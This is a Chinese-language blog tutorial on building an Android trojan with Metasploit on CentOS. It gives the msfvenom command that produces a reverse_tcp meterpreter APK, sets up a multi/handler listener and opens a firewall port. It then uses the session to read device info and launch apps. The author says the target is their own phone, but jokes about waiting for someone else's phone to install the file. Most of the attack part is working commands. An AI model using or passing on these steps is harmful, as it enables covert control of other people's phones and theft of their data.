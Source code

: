 ```yaml
---
title: Centos Linux下使用Metasploit渗透android
date: 2019-12-06 17:22:20
tags:
---
```


### Metasploit是一款开源的安全漏洞检测工具

![markdown](https://p1.ssl.qhimg.com/t0190cd0706efb0b092.jpg "markdown")


Metasploit是一款开源的安全漏洞检测工具，可以帮助安全和IT专业人士识别安全性问题，验证漏洞的缓解措施，并管理专家驱动的安全性进行评估，提供真正的安全风险情报。这些功能包括智能开发，代码审计，Web应用程序扫描，社会工程。


> 这篇文档只适合在Centos Linux已经安装了Metasploit的大伙。没有安装Metasploit的小伙们，可以前往
https://blog.csdn.net/wyvbboy/article/details/51526640
博客去浏览并安装，然后再回来~(如果此博客的安装已经过期了，官方找或者网上找)



看完Metasploit简介后，其下有一个工具msfvenom可以生成木马，打开linux终端，最好登录root，怕出错，然后输入命令

``` bash
$ msfvenom
```

Enter下看看都啥？一大堆指令让你烦~

![markdown](https://images.weserv.nl/?url=https://img2018.cnblogs.com/common/792361/201912/792361-20191207162657719-1141688852.png "markdown")


先查看一下所有类型的攻击负荷（看成木马也行），输入命令

``` bash
$ msfvenom --list payloads
```

Enter下来，数据很多，我们从里面找Android类型的就行，我是来操控手机的，不会干其它的


![markdown](https://images.weserv.nl/?url=https://img2018.cnblogs.com/i-beta/792361/201912/792361-20191207163344769-628933815.png "markdown")

复制一下黄色框的字段，tcp格式的，接下来会用到

> android/meterpreter/reverse_tcp

知道了“木马”的名称，还得知道终端的ip，输入ifconfig查看内网ip（俺的是本地测试的）

``` bash
$ ifconfig
```

![markdown](https://images.weserv.nl/?url=https://img2018.cnblogs.com/i-beta/792361/201912/792361-20191207163426245-963808654.png "markdown")

ip拿到了，还不赶紧的开始生成木木马-_-，msfvenom兄弟，靠你了，输入

``` bash
$ msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.122.129 LPORT=3333 R > first.apk
```

> -p, --payload      <payload>        使用攻击负荷。指定一个'-'或者输入(stdin)用户自定义的payloads(攻击负荷)。
LHOST ip地址
LPORT 自定义端口（注意，那些所谓的防火墙全踏马都要关闭，记得端口要放行且没被占用，不然渗透没软用）

> 生成的木马最好能放在一个可以访问的文件夹上，我直接first.apk，在终端目前路径上可以看到有文件生成。如果没有，那就是失败了，检查一下你的端口是否占用！生成成功的编译大概会出现Payload size: 10181 bytes字段

> ![markdown](https://images.weserv.nl/?url=https://img2018.cnblogs.com/i-beta/792361/201912/792361-20191207163818471-1522645336.png "markdown")

木马生成完毕，msfvenom兄弟的工作就基本完工了，接下来就有请msfconsole上场了，没错，就是打开metasploit的控制台，着手配置相关信息，开始渗透了~

直接输入msfconsole


``` bash
$ msfconsole
```

长久看多了单调代码的你，下面的图形代码有没有让你灰色的世界多点点色彩~~

> ![markdown](https://images.weserv.nl/?url=https://img2018.cnblogs.com/i-beta/792361/201912/792361-20191207163834423-1940779796.png "markdown")

谈正事~我们需要配置什么呢？前面生成木马的时候不是设置了ip和端口吗？现在我们也要在控制台上配置ip和端口，做监听来的<br/>
要做的流程大概是这些


> ![markdown](https://images.weserv.nl/?url=https://img2018.cnblogs.com/i-beta/792361/201912/792361-20191207163902002-1478615007.png "markdown")

（在msfconsole模式下）加载exploit模块


``` bash
msf > use exploit/multi/handler
```

(exploit模式下)选择之前我们粘贴过一次的攻击载荷：android/meterpreter/reverse_tcp


``` bash
msf exploit(multi/handler)> set payload android/meterpreter/reverse_tcp
```

(exploit模式下)查看一下列表有没有多出你设置的载荷


``` bash
msf exploit(multi/handler)> show options
```


(exploit模式下)设置蓝色框下的LHOST和LPORT，就设置成之前生成木马搞的ip和端口


> ![markdown](https://images.weserv.nl/?url=https://img2018.cnblogs.com/i-beta/792361/201912/792361-20191207163952817-212862305.png "markdown")

顺便放行端口，输入命令firewall-cmd --add-port=3333/tcp

> firewall-cmd --add-port=3333/tcp # 开放通过tcp访问3333

配置的流程都搞完了，马上就是渗透了。
群灵觉醒，封印解除，出来吧！exploit
输入命令exploit，开始监控，记住不要关掉，就坐等别人的手机安装，然后别人点击的瞬间，俺这里马上获取到别人手机的控制权，到时候，嘿嘿~。当然，俺这里是渗透自己的手机（然并软~—~）


> ![markdown](https://images.weserv.nl/?url=https://img2018.cnblogs.com/i-beta/792361/201912/792361-20191207164225839-1964069310.png "markdown")


既然是渗透自己的手机，把生成的木马拿出来下载吧，俺这里是ftp连接linux成功后，找到木马下载安装到自己的手机上（杀毒软件请关掉），我用的是xftp，只要你能把那个木马拿出来下载，管你用什么办法~~

> ![markdown](https://images.weserv.nl/?url=https://img2018.cnblogs.com/i-beta/792361/201912/792361-20191207164307971-1673424768.png "markdown")

安装好木马后，点击打开的瞬间，没有啥反应。手机上没反应没关系，关键是终端exploit监听有反应，并且开始渗透并成功。
如果终端没有反应，就是防火墙的问题，设置的端口要放行

输个?，查看命令列表

> ![markdown](https://images.weserv.nl/?url=https://img2018.cnblogs.com/i-beta/792361/201912/792361-20191207164555975-189752411.png "markdown")

比如查看下手机信息


``` bash
sysinfo
```

> ![markdown](https://images.weserv.nl/?url=https://img2018.cnblogs.com/i-beta/792361/201912/792361-20191207164626341-2046848681.png "markdown")

想打开某个应用，输入app_list查看app列表


> ![markdown](https://images.weserv.nl/?url=https://img2018.cnblogs.com/i-beta/792361/201912/792361-20191207164718918-656694583.png "markdown")

然后使用使用app_run命令打开app对应的package名称

> ![markdown](https://images.weserv.nl/?url=https://img2018.cnblogs.com/i-beta/792361/201912/792361-20191207164800100-437753813.png "markdown")

手机上的termux就会自己启动


> ![markdown](https://images.weserv.nl/?url=https://img2018.cnblogs.com/i-beta/792361/201912/792361-20191207164921069-1840035443.png "markdown")

> ![markdown](https://images.weserv.nl/?url=https://img2018.cnblogs.com/i-beta/792361/201912/792361-20191207164927946-1875249291.png "markdown")

好了，还有关于相册或者通讯录、照相什么的指令就不讲了，你们自己探究探究吧





